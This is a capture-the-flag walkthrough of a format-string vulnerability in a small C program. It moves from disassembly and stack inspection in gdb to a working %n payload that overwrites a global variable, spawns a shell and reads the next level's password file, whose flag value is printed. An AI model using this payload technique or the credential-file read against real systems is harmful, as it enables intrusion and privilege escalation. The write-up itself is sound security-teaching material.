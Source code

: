 # Level 3

<h3>source.c</h3>

```console
int m = 0;

void v(void) {
  char* str[520];

  fgets(str, 512, stdin);
  printf(str);
  if (m == 64) {
    fwrite("Wait what?!\n", 1, 12, stdout);
    system("/bin/sh");
  }
}


void main(void) {
  v();
}
```

<h3>Analysis</h3>

It seems that our target is the global variable `m` which is initialize to `0`, we need to somehow change this variable into `64` so it will spawn a shell for us

This time round, the programmer actually getting smarter by using `fgets()` which is more secured version of `gets()` as it limits the number of bytes written

But this programmer is stupid enough to use `printf()` with only an arg, and that is the 1st arg for `printf()` which control the formating

We could use `Format String` exploit to attack this program

<h3>Exploit</h3>

The `printf()` function will normally looks like this `printf("hello %s\n", str)`

The 1st arg is the `Format string`, where we could give any string we want, and it will iterate throught each char and print it out 1 by 1

When it encouters a special char like `%` (modifier), and since this is the 1st modifier, `printf()` will take the arg[1] provided to it and format the content before printing it out

In our case about, `%s` will format the content as a string, we could also use `%x` (hex) to print out the address instead

Now imagine what will happens with this code `printf("aaaa %x\n")`

As usual, it will read and print out each char until the `%x`, now it will try to look at the content of arg[1] and print its address out

But we never supply any arg to arg[1], so where will the it gets the content from? lets try it out in gdb!

```console
(gdb) r <<< "aaaabbbb %x %x %x %x %x %x"
Starting program: /home/user/level3/level3 <<< "aaaabbbb %x %x %x %x %x %x"
aaaabbbb 200 b7fd1ac0 b7ff37d0 61616161 62626262 20782520
```

The function print out the `aaaabbbb` like it should be, and after that it print out some hex valuable, where does it coming from ?

Base on our knowledge in assembly, a function arg will be placed at the top of the stack before calling the function itself

Below is the assembly analysis before the call of `printf()`

```console
0x080484a7 <+3>:    sub    esp,0x218                  Buffer 536 bytes for local variable
0x080484ad <+9>:    mov    eax,ds:0x8049860           ds (data segment) the content is stdin, copy this to eax
0x080484b2 <+14>:   mov    DWORD PTR [esp+0x8],eax    put eax (stdin) to 8bytes below the top of the stack, as the 3rd arg for the fgets function
0x080484b6 <+18>:   mov    DWORD PTR [esp+0x4],0x200  put number 512 to 4bytes below the top of the stack, as the 2nd arg for the fgets function
0x080484be <+26>:   lea    eax,[ebp-0x208]            load address of [ebp-0x208] (pointer to local variable1) into eax
0x080484c4 <+32>:   mov    DWORD PTR [esp],eax        put eax (pointer to local variable1) to the top of the stack, as the 1st arg for the fgets function
0x080484c7 <+35>:   call   0x80483a0 <fgets@plt>      call function fgets
0x080484cc <+40>:   lea    eax,[ebp-0x208]            load address of [ebp-0x208] (pointer to local variable1) into eax
0x080484d2 <+46>:   mov    DWORD PTR [esp],eax        put eax (pointer to local variable1) to the top of the stack, as the 1st arg for the printf function
0x080484d5 <+49>:   call   0x8048390 <printf@plt>     call function printf
```

Below is the state of the stack before the call of `printf()`

```console
(gdb) r <<< "aaaabbbb %x %x %x %x %x %x"
Starting program: /home/user/level3/level3 <<< "aaaabbbb %x %x %x %x %x %x"

Breakpoint 4, 0x080484d5 in v ()
(gdb) x/24wx $esp
0xbffff4d0:	0xbffff4e0	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff4e0:	0x61616161	0x62626262	0x20782520	0x25207825
0xbffff4f0:	0x78252078	0x20782520	0x000a7825	0x00000007
0xbffff500:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff548
0xbffff510:	0x00000040	0x00000b80	0x00000000	0xb7fde714
0xbffff520:	0x00000098	0x0000000b	0x00000000	0x00000000
```

Base on the asm code, we can see that the char* str address is at `[ebp-0x208]` and the top of the stack is at `[ebp-0x218]`

It is reflected on the state above, where `0xbffff4d0` is the top of the stack, whereas `0xbffff4e0` is the char* str and we can see `0x61616161	0x62626262` is `aaaabbbb`, the string that we gave to the program

Since the function arg is normally taken from the top of the stack `$esp` (0xbffff4d0), `printf()` will read the stack to get the arg it needed

We can visuallize it like this

Top of the stack:

```console
0xbffff4d0:	0xbffff4e0	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff4e0:	0x61616161	0x62626262	0x20782520	0x25207825
```

```console
C code version:     printf("aaaabbbb %x %x %x %x %x %x")
ASM code version:   printf(0xbffff4e0,0x00000200,0xb7fd1ac0,0xb7ff37d0,0x61616161,0x62626262,0x20782520)
```

Thus we can go back to our inital question on where the `%x` gets the value from 

```console
Starting program: /home/user/level3/level3 <<< "aaaabbbb %x %x %x %x %x %x"
aaaabbbb 200 b7fd1ac0 b7ff37d0 61616161 62626262 20782520
```

Now how could we use this knowledge to do our exploit?

`printf()` have a modiffer `%n` which will write the total number of bytes written so far to the address pointed by the arg provided to it

Example:

```console
int count;

printf("hello %n world\n", &count);
```

hello(white_space) = 6 char written before the modifier %n, so 6 will be written to the address given to arg[1], which in this case is the `int count`

so now the `int count` will be equal to 6

Combine with all these knowledge, we will now write the number `64` into variable `m` !

First we know from gdb that the address of m is `\x8c\x98\x04\x08`

Next we know that the char* str is located at `[ebp-0x208]` or `[esp+0x10]` which will become the arg[4] for `printf()`

We can test it again to be sure

```console
level3@RainFall:~$ (python -c "print '\x8c\x98\x04\x08 %x %x %x %x'") | ./level3
� 200 b7fd1ac0 b7ff37d0 804988c
```

Indeed, the 4th modifier contain the start of our string, so we should put `%n` as our 4th modifier so it will write the char counter into it

We can use this shorthand `%4$n` so that `printf()` will look for `arg[4]` to apply the modifier on

```console
Address of m        -> \x8c\x98\x04\x08 (4 bytes)
A * 60              -> 6o bytes so we could reach a total of 64 bytes
%4$n                -> Write the char counter into the arg[4] of printf
```

```console
level3@RainFall:~$ (python -c "print '\x8c\x98\x04\x08' + 'a' * 60 + '%4\$n'"; cat -) | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```